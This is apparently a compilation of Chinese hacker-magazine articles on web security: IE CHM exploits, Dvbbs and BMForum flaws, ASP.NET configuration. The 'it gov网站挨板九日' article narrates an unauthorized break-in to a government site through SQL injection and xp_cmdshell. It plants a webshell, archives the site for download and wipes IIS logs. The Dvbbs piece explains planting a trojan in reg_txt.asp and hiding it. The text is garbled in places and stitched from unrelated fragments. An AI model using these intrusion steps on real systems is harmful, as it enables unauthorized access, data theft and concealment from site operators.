介绍测试方式：使用安全天使脚本进行用户输入测试，程序即可完成相关功能。

```sql
DROP TABLE IF EXISTS `sa_guestbook`;
CREATE TABLE `sa_guestbook` (
  `gid` int(11) NOT NULL auto_increment,
  `name` varchar(16) NOT NULL default '',
  `email` varchar(200) NOT NULL default '',
  `qq` int(20) NOT NULL default '0',
  `homepage` varchar(200) NOT NULL default '',
  `ipaddress` varchar(50) NOT NULL default '',
  `addtime` varchar(10) NOT NULL default '',
  `content` text NOT NULL,
  `replycontent` text NOT NULL,
  PRIMARY KEY (`gid`)
);

INSERT INTO `sa_guestbook` VALUES (...);
```

反馈结果如图 1 所示。


结语：一个简单的 MySQL 数据库批量导入与执行程序完成，鼓励读者进一步开发自己的小程序。

脚本小子：看着五彩缤纷的网页世界，我们不禁要惊呼：网络越来越神奇了！不过，随着网页中加入更多的图片、动画、特效代码，安全与执行效率问题却伴随着个性化的页面接踵而来。

适合读者：安全爱好者、脚本爱好者

前置知识：脚本基础

## 从某名牌大学网站挖掘与说起……


文／图 彭文波

某日，登录国内某名牌大学的网站，竟然发现其代码具有攻击性，如图 1 所示。

攻击者能够利用正在使用 IE 用户的权限来执行任意代码、读取或更改其他网站数据，包括读取 Cookies，或更改、创建目录。其危害性可想而知！出现上述问题后，我们可以先参考一些描述漏洞的站点（如 http://www.cert.org.cn 等）进行初步判断。


图1

根据提示，这是一个典型的 Bloodhound.Exploit.6 病毒！而这个问题居然出现在一所大学校园网，可见日常上网时轻易信任某些网站只能让自己遭受攻击。不过，从另一个角度来说，强大的动态网页技术使网页有非常丰富的变化……但在“炫耀”成果的同时，我们必须保证这些代码的安全和执行效率。

CHM 文件中某一个具体页面的连接地址类似如下：

`mk:@MSITStore:E:\FAT32\chm:/exploit.html`

> **小知识**：`mk:@MSITStore` 是一种特殊的协议，用于读取 CHM 文件中的内容。

### 代码安全：从一个典型漏洞谈起

1990 年，网上出现的病毒交流布告栏逐步成为病毒编写者合作和共享知识的平台。如今，病毒的传播和感染已由软盘、软件为媒介发展到了因特网时代的以网络为媒介。

### 1 安全漏洞分析及思路

打开这个学院的网址并查看其网页源代码后，可以判断这是一个 Microsoft Internet Explorer 跨站脚本漏洞。用户运行 IE 时，攻击者可执行任意代码，或者在其他域的网站上读取并操作数据……

在 ASP.NET 中，如果用 `System.NET`、`HttpWebRequest`、`System.Net.WebClient` 这些方法来读取这样的文件会报错“无法识别该 URI 前缀”。不过我们可以用 XMLHTTP 来识别这种协议……下面就是主要代码。

    string Url = "http://www.test***.com/Images/logoSite.gif";

```csharp
private void Page_Load(object sender, System.EventArgs e)
{
    string StringFileName = Url.Substring(Url.LastIndexOf("/") + 1);
    string StringFilePath = Request.PhysicalApplicationPath;
    if(!StringFilePath.EndsWith("/")) StringFilePath += "/";
    MSXML2.XMLHTTP _xmlhttp = new MSXML2.XMLHTTPClass();
    _xmlhttp.open("GET", Url, false, null, null);
    _xmlhttp.send("");
}
```

```csharp
if (_xmlhttp.readyState == 4)
{
    if (System.IO.File.Exists(StringFilePath + StringFileName))
        System.IO.File.Delete(StringFilePath + StringFileName);
    System.IO.FileStream fs = new System.IO.FileStream
        (StringFilePath + StringFileName, System.IO.FileMode.CreateNew);
    System.IO.BinaryWriter w = new System.IO.BinaryWriter(fs);
    w.Write((byte[])_xmlhttp.responseBody);
    w.Close();
    fs.Close();
    Response.Write("文件已经得到。<br><a href='" + Request.ApplicationPath + StringFileName + "' target='_blank'>");
    Response.Write("查看" + StringFileName + "</a>");
}
else {
    Response.Write(_xmlhttp.statusText);
    Response.End();
}
```


图2

现在，回到本文开头的话题，根据病毒防护软件的提示，上文所述的 BloodHound.Exploit.6 就是此漏洞恶意代码攻击中的一个例子。再看看我们会发现，一个恶意网址或邮件信息可能包含类似如下的 HTML 地址也就不奇怪了：

```text
ms-its:mhtml:file://C:\nosuchfile_mht!http://www.example.com//exploit_chm:exploit.html
```

此 URL 故意进行了修正以避免防病毒软件的检测。这个地址中，HTML 和 exploit.html 的脚本将会在本机域（Local Machine Zone）的安全环境下执行。这是对于 exploit.html 的通常惯例，或者包含或者下载一个可运行的文档，例如后门、特洛伊木马、病毒、机器人或其他恶意代码。因此，必须注意在 HTTP 内容检查或防病毒软件中注意加密 URL 的可能性。

### 2 问题解析及对策

运用特殊处理的 URL，攻击者能够导致 CHM 文件在不同域执行任意脚本，干扰跨站脚本安全模式。任何使用 WebBrowser ActiveX 控件或 IE HTML 表现方法（MSHTML）的程序会受到此漏洞影响。Internet Explorer、Outlook 和 Outlook Express 都是此类程序的例子。任何程序，包括其他网络浏览器，通过使用 IE 协议处理程序（URL 名字），就可以作为攻击携带者的功能。

- 1. 关闭 ITS 协议处理漏洞。删除或更改相关注册键值以避免该漏洞被利用。
- 2. 关闭运行的脚本和 ActiveX 控制器。可减少跨站漏洞被利用，但会影响部分脚本、Applet、Windows 组件及应用功能。
- 3. 用户个人防范。避免点击不明链接，及时更新病毒库，不要轻信邮件、论坛、IRC、QQ 等渠道中的可疑 URL。

```text
[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\PROTOCOLS\Handler\{ms-its, ms-itss, its, mk}]
```

如图2所示。实际上，在很多漏洞问题刚出来的一段时间内，一般都没有比较正式的补丁。如果能够确定问题的根源，那么就可以通过上述手段来关闭这些协议处理程序。这样将明显减少 Windows 帮助系统的功能，并且可能导致意料之外的结果，等补丁测试并安装后，再将这些改变还原即可。

```text
http://www.xxx.com@xxxxxxxxxx(@后面的都是由数字构成)
http://www.xxx.com/outlink/http://www.xxx.com
```

稍微不小心，我们就点了这个连接上当了。仔细分析，我们发现，这些骗局的特征是中间的连接比较复杂，然后有提示说可以抽奖或者是什么好玩的内容。其实，这些地址可能是一个圈套。第一个地址后面的数字看似没什么，可是要是换成16进制计算的话，那就是一个 IP 地址。还有一种可能，就是使用了网站的搜索功能。如果不小心点了这些陌生人发来的东西，可能就连接到一个国外的网址，或者是一个病毒网站。类似的陷阱有很多，下面我们重点来分析一下问题的根源。

### 代码效率：矛盾的问题

对于一般用户来说，安全与效率好像根本就没有关系。实际上这两者之间还是有一定的矛盾关系的。登录程序员论坛，我们不难发现类似的话题：“你认为执行效率、安全最好的 JSP 服务器组合是什么？”“单纯从执行效率和安全性这两方面，servlet、javabean 是必须的吗？”“JSP 第一次要编译成 servlet，所以比较慢，可以使用预编译（在部署前编译所有的 jsp 文件）”。通过这些话题，可以看出，为了实现安全，有些时候总要牺牲……一些效率。因此，我们要做的就是在这两者之间求一个平衡，以达到最优的效果。下面，针对网页代码中的效率与安全问题，我们列举几个典型的例子进行分析。

#### 1．代码效率的演示

在动态网页的设计中，我们经常要在下拉菜单中添加新的选择项，如果需要添加成百上千个选择项怎么办？这时候我们需要使用 `innerHTML` 方法，而不是为每个需要添加的选项调用一次 `createElement`。下面是 3 种设计方法的对比。

```javascript
var opt;
divUpdate.innerHTML = "<SELECT ID=selUpdate></SELECT>";
for (var i=0; i<1000; i++) {
  opt = document.createElement("OPTION");
  selUpdate.options.add(opt);
  opt.innerText = "Item " + i;
}
```

相对上述方法而言，下面的方法要快。

```javascript
var str="<SELECT ID='selUpdate'>";
for (var i=0; i<1000; i++) {
  str += "<OPTION>Item " + i + "</OPTION>";
}
str += "</SELECT>";
divUpdate.innerHTML = str;
```

如果要更快的方法，就可以使用下面的代码。

```javascript
var arr = new Array(1000);
for (var i=0; i<1000; i++) {
  arr[i] = "<OPTION>Item " + i + "</OPTION>";
}
divUpdate.innerHTML = "<SELECT ID='selUpdate'>" + arr.join() + "</SELECT>";
```

通过分析，我们可以看到，把代码稍微修改后，可以带来截然不同的效果。演示效果如图 3 所示。


通过上面的 3 种方法，我们看到执行效率差别可达 50 多倍。在大型页面访问中，不同系统的运行效率差异明显。开发者必须不断缩短开发周期并提升程序效率，即使是一小段代码，在大规模循环和应用中，细微差别影响也很大。

#### 2．加密中的安全与效率综合

“我的信用卡号是******！”在网络监听无处不在的今天，我们难以保证数据不被截取。散列（Hashing）是信息安全中常用算法：用固定长度数据表示一大串数据，不同数据散列结果应不同，且微小改动会导致巨大变化。散列算法可安全用于反篡改和身份认证。

对于只需保护口令的场景，OTP 方案比 TLS/SSL 更高效，因为不需要协商“会话密钥”，从而缩短计算时间。虽然 OTP 在安全性上不如 TLS/SSL 全面，但实现代价低、效率高，适合对安全要求不极端严格的场合，并可降低服务器加解密负载。

下面是某网站登录组件示例。在综合考虑安全与效率基础上，采用了 OTP 方案并使用 SHA1 散列算法。代码进行了一定优化以提高脚本即时编译速度。

```javascript
// 代码示范
var sHEXChars="0123456789abcdef";
// 将 int32 类型变量转换为 hex 字串。
function hex(num){
  var str="";
  for(var j=7;j>=0;j--)
    str+=sHEXChars.charAt((num>>(j*4))&0x0F);
  return str;
}
// 调整输入串，使其符合要求
function AlignSHA1(sIn){
  var nblk=((sIn.length+8)>>6)+1, blks=new Array(nblk*16);
  for(var i=0;i<nblk*16;i++) blks[i]=0;
  for(i=0;i<sIn.length;i++)
    blks[i>>2]|=sIn.charCodeAt(i)<<(24-(i&3)*8);
  blks[i>>2]|=0x80<<(24-(i&3)*8);
  blks[nblk*16-1]=sIn.length*8;
  return blks;
}

// add 添加函数
function add(x,y){
  var lsw=(x&0xFFFF)+(y&0xFFFF);
  var msw=(x>>16)+(y>>16)+(lsw>>16);
  return(msw<<16)|(lsw&0xFFFF);
}

function rol(num,cnt){
  return(num<<cnt)|(num>>>(32-cnt));
}

function ft(t,b,c,d){
  if(t<20)return(b&c)|((~b)&d);
  if(t<40)return b^c^d;
  if(t<60)return(b&c)|(b&d)|(c&d);
  return b^c^d;
}

// 为当前迭代决定合适的附加常量 t
function kt(t){
  return(t<20)?1518500249:(t<40)?1859775393:(t<60)?-1894007588:-899497514;
}

// 利用 FIPS-180 标准实现的 SHA-1 算法
function SHA1(sIn){
  var x=AlignSHA1(sIn);
  var w=new Array(80);
  var a=1732584193;
  ...
}
```

```javascript
var b=-271733879;
var c=-1732584194;
var d=271733878;
var e=-1009589776;
for(var i=0;i<x.length;i+=16){
  var olda=a;
  var oldb=b;
  var oldc=c;
  var oldd=d;
  var olde=e;
  for(var j=0;j<80;j++){
    if(j<16)w[j]=x[i+j];
    else w[j]=rol(w[j-3]^w[j-8]^w[j-14]^w[j-16],1);
    t=add(add(rol(a,5),ft(j,b,c,d)),add(add(e,w[j]),kt(j)));
    e=d;
    d=c;
    c=rol(b,30);
    b=a;
    a=t;
  }
  a=add(a,olda);
  b=add(b,oldb);
  c=add(c,oldc);
  d=add(d,oldd);
  e=add(e,olde);
}
return hex(a)+hex(b)+hex(c)+hex(d)+hex(e);
```

综上所述，事物总有相对的两个方面，效率方面的提高可能就意味着安全方面的成本和要求有所降低。比如，从加密长度而言，加密长度越长，对服务器性能的影响也就越大；从加密算法而言，对称加密算法采用同一把密钥进行加密和解密时速度快，但密钥的分发与交换不便于管理，而使用不对称加密算法加密时，运算量则会比较大。因此，根据不同的场合，实际应用时肯定有不同的取舍，从而达到一个综合的平衡效果。

适合读者：入侵爱好者，脚本程序员，站长  
前置知识：无

### 关于 Dvbbs6.0 的设计缺陷


文/图 蓝翎小筑、青蛙

动网论坛到目前为止是国内使用较多的一种论坛，到现在已经推出了好几个版本和一些补丁程序，对于最早期的 Dvbbs6.0 可以说是漏洞百出。虽然现在动网论坛的官方对早期的 6.0 版本进行了加强改进，基本杜绝了一些早期的漏洞。在 6.0 发帖处的上传已经被设置为每天上传 0 个，这样的话只要把头像处的上传给去掉，就可以从根本上杜绝了上传漏洞了（也能杜绝备份数据挂马），从这一点来看，现在官方所提供的 6.0 版本已经进行了一些加强。对于这个版本的其他几个漏洞我没测试过，估计应该也行不通了。现在使用较广的 7.0 版本以及它的几个 SP 补丁和最新出的 7.1 版本在安全性上都有了很大的改变，但在进入后台后通过备份数据库的挂马方法却还依然没有找到好的办法解决。今天我想和大家谈的就是 Dvbbs6.0 版本所存在的一个设计缺陷，导致还可以用另外一种方法挂马。

在 Dvbbs6.0 中存在一个名为初始信息设置的功能模块，方便用户直接在后台更改论坛的注册条款，而作者在设计这个功能版块的时候，却留下了一个缺陷。

首先我们知道我们进行注册的页面为 `http://****/bbs/reg.asp`，这说明注册条款由 `reg.asp` 这个文件控制的，我打开这个文件看里面是怎么实现修改注册条款的，在……

这个文件中有如图1所示的一段代码，其中这一句 `<!--#include file="inc/reg_txt.asp"-->` 不是一个调用语句吗？（这个语句真是个好东西，还可以用来留隐藏后门，呵呵）。它的注册条款全部来自 `reg_txt.asp` 这个文件，然后通过调用在 `reg.asp` 里面显示。前面说后台不是有个初始信息设置的功能模块可以修改注册条款吗，莫非那里的输入部分全保存在了 `reg_txt.asp` 里面，而这个又是个单独的页面，如果我们把我们的木马写进去岂不是可以执行我们的木马？


进入后台发现果然把注册条款保存到了 `reg_txt.asp` 里，如图2所示。


现在我们就把里面原有的条款复制下来，保存到记事本里（等挂完马后还要恢复原貌，别被人“发现”了，呵呵），现在把木马内容写进去，看看能不能访问正常。我们访问 `http://****/bbs/reg_txt.asp` 这个页面看看，呵呵，马儿出现了，同时也说明了 Dvbbs6.0 版本在设计 `reg.asp` 这个页面时有设计缺陷，导致进入后台能通过修改注册条款挂马。

也许是设计者发现了这个设计缺陷，在 Dvbbs6.0 后的版本已经弥补了这个页面的设计缺陷，所以在 6.0 后的版本不能通过这种方式挂马，不然的话这将是一种比备份数据库更简单实用的方法了。

> 小经验：其实备份数据库挂马还是有办法避免的。备份数据库挂马是要把 jpg 格式的木马上传，我们只要删除所有的上传页，这样想备份数据库都没办法了；另外还可加入检测图片真实性的代码来预防图片跨站攻击，同样这段代码也能防止备份数据库挂马，这是最完美的方法。

在随后我还发现了一些整站程序也存在这个设计缺陷，但有部分站点却对注册条款处理得很好，特别是一些购物系统。说这些的目的是想告诉大家，大家在入侵的过程中要多注意观察各个整站之间存在的类似性，不要他说是针对哪套程序你就只局限那套程序，要学会发散思维地思考问题，还有就是多看代码，也会给你带来意想不到的结果。

此文只是把一个不被人注意的设计缺陷谈了一下，写得不好大家可别砸我，呵呵。

### 最短的 ASP 病毒

适合读者：脚本爱好者，网管  
前置知识：无  
文/图 web-wind


愉快长假第一天上班，被通知公司网站发现被攻击的痕迹，证据是诺顿的隔离区里发现若干病毒文件。用 PCanywhere 连上 Web 服务器一看，隔离区里躺着几个 `Upload.inc` 文件，这不是我们大家广为传用的无惧上传类吗？我的 BBS 和涉及到无组件上传的地方都用它。无惧啊，挺好的，用了无惧，还真对得起咱这张脸（大宝广告后遗症）。

打开 BBS 目录，果然 `Upload.inc` 被杀掉了。再看一下诺顿的版本，5 月 4 号升级。看来是在 `Upload.inc` 里包含了诺顿新命名的病毒特征码。无惧，我所欲也，诺顿亦我所欲也，鱼与熊掌……只有改这个 inc 文件了。

我最初的做法比较速成，下了一个 ASP 免杀工具，然后把 `Upload.inc` 加密，再 Copy 到 Web 下，没有被查杀。正得意之时，又被人告知上传功能仍无法使用，一看报错信息“Page 重复定义”——原来如此，我的上传页面里包含了 `Conn.asp` 和 `Upload.inc` 等文件，`Conn.asp` 的第一行代码如下：

```asp
<%@LANGUAGE="VBSCRIPT"%>
```

而 `Upload.inc` 加密后也必定包含如下代码：

```asp
<%@ LANGUAGE = VBScript.Encode %>
```

重复了。解决办法倒是有，把 `Conn.asp` 的那行去掉，然后再调换一下上传文件里的 Include 顺序应该就可以了。不过这次没成功，让我改变了自己一贯不求甚解的做法，决定找出 `Upload.inc` 的特征码。

做法很简单，我把认为可能成为特征码的语句从文件中删除，然后再让诺顿杀，被杀了说明还没找到特征码。结果我认为最有可能的 `Server.CreateObject("Scripting.Dictionary")` 之类都没问题。扪心而论，这些也不该有问题，只不过 `Upload.inc` 里的代码太平常、太正规了。最后的结果出人意料，居然是 GetDate 里的一行定义变量的语句，如下：

```asp
Dim RequestBinDate,iSpace,bCrlf,sInfo,iInfoStart,iInfoEnd,
iStream,iStart,oFileInfo
```

把这行代码写入一个文本文件，如果你的机子上有诺顿又刚升级的话，马上会被删掉，而你只要随便改其中一个变量的名字就没问题了——这也是我最后的解决方法。

我的题目或许有些哗众取宠，但在诺顿的眼里它确实是病毒。再看一些包含上传功能的 ASP 木马，基本原文不动地包含了此段定义，难道这就是原因？

**脚本小子：** 论坛被入侵是一件很痛苦的事情，可是“亡羊补牢”才是重中之重。最近，虽然蓝色魔法论坛被入侵的事情闹得沸沸扬扬，可惜依然有无数的论坛没有打上新的补丁，漏洞“后遗症”导致的损失也就可能更加厉害了！代码提供者如何让自己的用户及时更新？用户如何得到最新的漏洞消息？如何将损失降低到最小？且看本文的描述。

**适合读者：** 脚本爱好者、入侵爱好者、网管  
**前置知识：** 无

### 从 PHP 论坛漏洞谈论坛安全管理


蓝色魔法论坛是一个用 PHP 编写的论坛，在国内被普遍采用。由于它的用户注册模块中的一些代码缺陷，可以导致恶意攻击者将普通用户提升为管理员。先让我们看看一个入侵的范例吧。

#### 入侵范例

现在假设某个不怀好意的用户知道了这个漏洞，通过分析 `http://www.bmforum.com/bmb/` 这个网站，可以得到其特征代码，大家可以看看页面下方的一段标识，这在很多论坛都很相似，如图1所示。


这就是查找受害者的特征代码了。仔细看一下，我们会发现采用这个论坛代码的网站大部分应该有“Powered by BMForum Plus!”这样的独特标志。把这个特征代码作为关键字，到百度、Google 等网站进行搜索，无数的目标出现在我们眼前。如图2所示。

> 特征代码越准确，就越容易找到有漏洞的论坛。

随便挑选一个有漏洞的论坛，关于这个漏洞我们就不详细描述其原因了，主要缺陷在于过滤不严，通过伪造“|”使程序在读用户等级时将之判断为管理员。单击“注册”按钮，进入注册页面，在填写邮箱地址时，输入特制内容，通过认证后，这个刚注册的新用户就变成了管理员。


进入“管理中心”，就可以看到管理页面了。在这里，恶意的用户可以做很多事情，比如上传文件构造一个 WebShell，如图3所示的上传文件表单即可由用户直接构建。试想，如果管理员知道自己的网站可以被别人这么折磨，其表情有多么难看？


实际上，看看网络上到处横行的论坛漏洞，无论是 ASP、JSP 还是 PHP，类似的问题都可能存在。那么，如何进行有效的防范呢？

#### 防范措施

- 1．密切关注官方补丁

用了别人的代码后就以为万事大吉了。实际上这是一个很大的隐患，因为代码是别人写的，代码的安全问题也只有别人才知道。因此，关于代码的安全，可以从以下两个角度来分析。

以本文的蓝色魔法论坛为例，可以登录其官方站点 `http://www.bmforum.com`，找到补丁相关的栏目，如 `http://www.bmforum.com/bmb/forums.php?forumid=4`。这样可以在最快的时间内了解问题所在，并及时进行防范和解决漏洞。

除了关注官方补丁，如果对问题比较了解，可以直接进行修补。如下的一行代码，利用正则表达式，判断如果含有 JavaScript 就进行拆分，这样就可以有效地消灭跨站式攻击，部分代码修改后如下所示。

```php
if ($allow['pic']) {
    $message = preg_replace("/\[img\](.+?)\[\/img\]/eis", "cvpic('\\1')", $message);
    $message = preg_replace('/javascript/i', 'java script', $message);
} else {
```

- 2．阅读代码并理解代码

现在，由于很多论坛的安装十分智能化，很多使用者也懒得去看代码是如何实现功能的，直接点击“下一步”或者直接上传到服务器上就万事大吉了。通过仔细阅读并理解代码，才能真正找到出现问题的地方。

比如，在 Web 程序中，数据库的安全是一个很严肃的问题。常见的情况是要么没有穷尽所有的可疑地点，要么这种补救逻辑上有误。这种意义上的补救措施和没有任何补救措施没有本质上区别。

常见的输入变量有 3 种：数字、字符串和集合。对于数字型的输入变量；对于字符串型来说；如果是数字的集合，情况可能稍微麻烦一点，这样的过滤规则可能显得复杂。

```asp
id := replace(request.querystring('id'), "'", "''")
```

这个做法很有可能是错误的。因为引起 SQL 注入的不总是单引号。正确地利用注入，重要的一点是闭合前面的一句 SQL 查询语句。这也是每个代码使用者所应该了解的一些基本防范规则。

- 3．检查网站安全日志和后门文件

一般来说，入侵者总会或多或少地留下一些蛛丝马迹。“清空论坛安全日志”作为一个聪明的管理员，应该可以从中看到一些入侵的迹象。这个版本的论坛对 24 小时内进入管理员界面的用户也有记录。


图4

打完补丁并不代表问题已经解决了。攻击者很可能已经上传了一些网页木马程序或者修改了系统的一些设置。要仔细查看各上传文件的保存目录中是否存在 `asp`、`asa`、`cdx`、`cer`、`aspx` 等扩展名的文件，然后重新下载官方文件覆盖。

这也间接告诉我们，在论坛上注册资料的时候，一定要注意保护个人的重要信息。通过重设密码，这个用户的邮箱资料就完全掌握在攻击者手中了。

- 4．多级加强 Web 服务器安全

在网络安全领域，用于防止从 Internet 对内部网络进…## 图5


防火墙是十分重要的，除此之外，Web 服务器应该说是第二个需要高度安全的领域了。服务器安全由几个安全区域组成，为了保证允许条件下的最高度安全保护，安全必须在每个区域都予以一致的实现。下面是几个重点防范区域：

- 基础设施区。基础设施区域定义服务器在网络中的位置，这个区域必须能够防止数据窃听、网络映射和端口扫描等黑客技术的威胁，而且，还应该能跟踪对一个暴露的 Web 服务器的成功入侵……
- 网络协议区。网络通信一般指的都是 TCP/IP 通信，然而，一些函数或者协议的易受攻击点可能会被用来发起攻击或破坏行为……
- 服务区。服务区定义需要哪些服务。通过安全策略，服务器上仅仅配置完成必要的操作所必需的服务……如 SSH、SSL/FTP 或 HTTPS。
- 应用区。为安全起见，每个服务都必须单独配置……
- 操作系统区。在这里，应该存在一个检测入侵的机制……

蓝色魔法论坛还有一个关于暴露 Web 路径的问题，对于类似的问题，可以考虑关掉其服务器中 php.ini 里面的 `display_errors` 选项……在函数前加一个“@”就不会报错了。这是初始化代码：

```php
if(in_array($tid,$b[$i],$eid)){
```

修改后的代码为：

```php
if(@in_array($tid,$b[$i],$eid)){
```

本文完成之时，网络上的漏洞依然层出不穷，由此导致的后续安全问题依然困扰着我们身边的每位安全管理人员……

适合读者：脚本入侵爱好者、网管  
前置知识：无

## it gov网站挨板九日


文/图 网络骑士[H.K.C]

某日，我在研究日本 BBS 的漏洞，为了找到目标我就在 Google 里搜索“东京”二字……如果能拿到这个站的源代码的话那就轻松了。

找找看，有一个 DVBBS，赶快拿出臭要饭的写的上传工具，填好网址路径，上传……提示文件格式不正确，如图1所示。此路不通，换条路再走，到其他页面上找找漏洞去。

这个网站的程序应该是站长自己拼出来的，不会完全没有漏洞。在首页上随便点一个链接进去，然后在后面加个单引号：

```text
http://www.xxxx.gov.cn/news/index_nr.asp?id=5683'
```

返回：

> Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'  
> [Microsoft][ODBC SQL Server Driver][SQL Server]字符串 "'" 之前有未闭合的引号。  
> /news/index_nr.asp，行 7

## 脚本攻击防范 / SCRIPT ATTACK DEFENCE


Oh my dog！错了，是 Oh my god！它是 SQL Server 数据库的，看看它能不能执行命令，提交：

```text
http://www.xxxx.gov.cn/news/index_nr.asp?id=5683;exec%20master.dbo.xp_cmdshell%20'ping 我的IP'
```

这句代码是让它来 Ping 我的机器，果然，我的天网防火墙马上提示有人向我发数据包，说明命令执行成功了！接下来怎么办？很多人马上想到用 NBSI2 来执行命令，但是我建议不要用 NBSI2 来执行命令，因为它的回显不太好使！我用的是 SQL INJ Commander。

我用它在目标系统里跳啊跳啊，终于 DIR 到了网站的目录“d:\信息网\绿谷信息网”，确认一下，输入命令：`Echo test>> d:\信息网\绿谷信息网\1.txt`。这个命令是在网站根目录下建一个 1.txt 文本文件，内容是“test”这个单词。用浏览器访问看看……成功了，如图2所示。


既然网站的物理路径知道了，那就好办了，弄个 WebShell 上去的话就可以把我想要的东西全都弄下来了。至于木马……我想用那个经典的三文件插件吧，体积又小，扩展性又好……用 echo 命令一句一句写吧。命令如下：

```text
echo ^<%dim objFSO%^> >> d:\信息网\绿谷信息网\1.asp
Echo ^<%dim fdata%^> >> d:\信息网\绿谷信息网\1.asp
......
```

可是弄了半天我才发现，数据传输很不稳定，于是放弃了这个办法。再介绍个工具——臭要饭的写的 GetWebShell，可惜结果出错了，如图3所示。到这里就卡住了，难道没辙了么？不，思路最重要。

记得前面那个 DVBBS 吗？我们可以上传图片啊！先 DIR 找到那个 BBS 的物理路径 d:\信息网\XEbbs。然后到 DVBBS 发个帖，上传个图片，当然不是真的上传图片，我们上传的是改名成为 `.gif` 后缀的 ASP 木马。传上去了，但后缀不对，它不会按照 ASP 语法去执行，怎么办？改后缀！把上传的文件名记下来 `UploadFile/2005-5/2005571163314852.jpg`，那么它的物理路径就是 `d:\信息网\XEbbs\UploadFile/2005-5/2005571163314852.jpg`。接下来让它执行命令：

```text
copy d:\信息网\XEbbs\UploadFile/2005-5/2005571163314852.jpg d:\信息网\绿谷信息网\1.asp

Del d:\信息网\XEbbs\UploadFile/2005-5/2005571163314852.jpg
```

先把木马图片复制成 ASP 文件放在网站目录下然后删除图片，访问木马，终于成功了！我用的是桂林老兵 ASP 站长助手，同是桂林人，我当然支持他一下。有 WebShell 了，然后删数据？别忘了，我们是来取经的，不是来搞破坏的，把需要的文件弄到手就行了。

我懒得一个一个地下，还好服务器上装有 WinRAR，把网站打包然后下载，打包命令如下：

```text
c:\progra~1\winrar\rar.exe a d:\信息网\绿谷信息网\web.rar d:\信息网\绿谷信息网\
```

然后就可以用 `http://www.xxxx.gov.cn/news/web.rar` 这个 URL 直接下载网站的文件了。

到这就完了？不，吃完东西总是要擦一下嘴巴的，这是政府网站耶，不敢乱来，传了个小榕写的 iislog 上去删除日志，最后把 iislog 也删除，安全离开。

差点忘了，我是要拿那个网站的文件为模板来做学校的网站，总不可能拿个有漏洞的站来吧。Debug 是个很麻烦的事，特别是代码不是我自己写的，我才懒得去一句一句地看。还好，有个 SQL 通用防注入程序，把它放在网站目录下，在文件里的每个文件的开头都加上一句代码把它包含：`<!--#include file='WrSky-Sql.asp'-->`。好了，稍微把里面的内容改改我就可以交给老师了！其实黑客入侵很像搭积木，非常灵活，全看大家怎么去想了。如果文章有什么错误之处，还请高手到黑防论坛来共同讨论。

脚本小子在 ASP.NET 中的 Web.config 文件让各位网站程序员在处理用户会话的时候轻松了不少，升级过后的 global.asax 文件也得到了加强，这里作者从这两个文件着手，详细介绍了在安全方面如何正确处理这方面应用。

适合读者：ASP.NET 程序员，网站维护人员  
前置知识：IIS 全局变量概念，ASP.NET 基础

## ASP.NET安全编程：完美解决方案


### ——《浅谈ASP.NET安全编程》再续

文/图 swords[E,S,T]

看了风之扬写的《浅谈ASP.NET安全编程》，觉得不够全面，现在补充上 global.asax 和 Web.config 文件的深入阐述，供商榷。

对于 ASP.NET 来说，global.asax 和 Web.config 文件是两个非常重要的文件。前者控制应用程序的事件，让你能够在页面首次被请求，甚至每次被请求时执行如用户身份验证、应用程序启动以及处理用户会话等代码；后者包含应用程序的设置，包括会话状态的行为和安全措施。

虚拟目录：任何不包含在根目录下，但对客户来说就像是根目录下的目录。IIS 的每个虚拟目录都是一个应用程序。

HttpApplication 对象：它提供方法、属性、事件，虚拟目录的页面首次被访问时，将实例化一个 HttpApplication 对象；一个 HttpApplication 实例负责处理 HTTP 请求——记录请求变量和交付页面。

Global.asax 文件：它被称为 ASP.NET 应用程序文件，位于 ASP.NET 应用程序的根目录下，让你能够规划 HttpApplication 对象。它是可选的，如果没有为应用程序创建该文件，则程序将以默认方式运行。在运行阶段，Global.asax 文件被编译成一个从 HttpApplication 类派生而来的动态类，因此你能够使用 Global.asax 文件来访问这个对象以及 HttpApplication 能够使用的对象和事件。

#### 基本概念

ASP.NET 应用程序的定义：Web 应用程序服务其中某个虚拟目录下可运行或调用的全部文件、页面、事件处理程序、模块以及可执行代码。

#### 1. HttpApplication 类的事件

| 事件 | 触发顺序 |
|---|---|
| Application_Start | 在 HttpApplication 类的第一个实例被创建时 |
| Application_Init | 在应用程序被实例化或第一次被调用时 |
| Application_BeginRequest | 在接收到一个应用程序请求时 |
| Application_AuthenticateRequest | 认证用户的请求时 |
| Application_AuthorizeRequest | 批准用户可以访问资源时 |
| Application_ResolveRequestCache | 应用程序为请求解决缓存时 |
| Application_AcquireRequestState | 应用程序得到请求的会话状态时 |
| Application_PreRequestHandlerExecute | HTTP 处理程序处理请求前 |
| Application_PreSendRequestHeaders | 发送 HTTP 头给请求客户（浏览器）时 |
| Application_PreSendContent | 发送内容给请求客户（浏览器）时 |
| Application_PostRequestHandlerExecute | HTTP 处理程序处理请求结束后 |
| Application_ReleaseRequestState | 应用程序释放请求的会话状态时 |
| Application_UpdateRequestCache | 应用程序为请求更新和释放缓存时 |
| Application_EndRequest | 应用程序请求的最后一个事件结束时 |
| Application_Disposed | 在应用程序被销毁之前 |
| Application_End | 在 HttpApplication 类的最后一个实例被销毁时 |
| Application_Error | 当应用程序中遇到一个未处理的异常时 |
| Session_Start | 新用户访问应用程序 Web 站点时 |
| Session_End | 用户的会话超时、结束或离开应用程序时 |

#### 2. 如何编写 Global.asax 文件

有了如上的事件介绍，你将很容易编写一个测试文件 Global.asax 和一个测试文件 testglobal.aspx，我把它放在光盘里。测试结果如图1所示。

```text
process..
Application_BeginRequest..
Application_AuthenticateRequest..
Application_AuthorizeRequest..
Application_ResolveRequestCache..
Session_Start..
Application_AcquireRequestState..
Application_PreRequestHandlerExecute..

页面载入中....

应用程序启动时间：2005-5-18 15:49:54..
现在时间：2005-5-18 15:50:37..
Application_PostRequestHandlerExecute..
Application_ReleaseRequestState..
Application_UpdateRequestCache..
Application_EndRequest..
```

图1

#### Web.config 安全配置

##### 1. 命名规则

标记名和属性名是 Camel casing 大小写形式，即标记名的第一个字符是小写，任何后面连接单词的第一个字母是大写。属性值是 Pascal 大小写形式，即第一个字符是大写的，任何后面连接单词的第一个字母也是大写。小知识：true 和 false 例外，它们总是小写。

##### 2. 配置层次

ASP.NET 的配置系统是层次式的，因此每个 Web.config 文件的设置值应用其所在的目录及其子目录。所有配置信息都驻留在 `<configuration>` 和 `</configuration>` 根 XML 标记之间。Web.config 的基本格式如下：

```xml
<configuration>
  <configSections>
    <!-- 配置节处理程序声明区域 -->
  </configSections>
  <system.Web>
    <!-- 配置节设置区域 -->
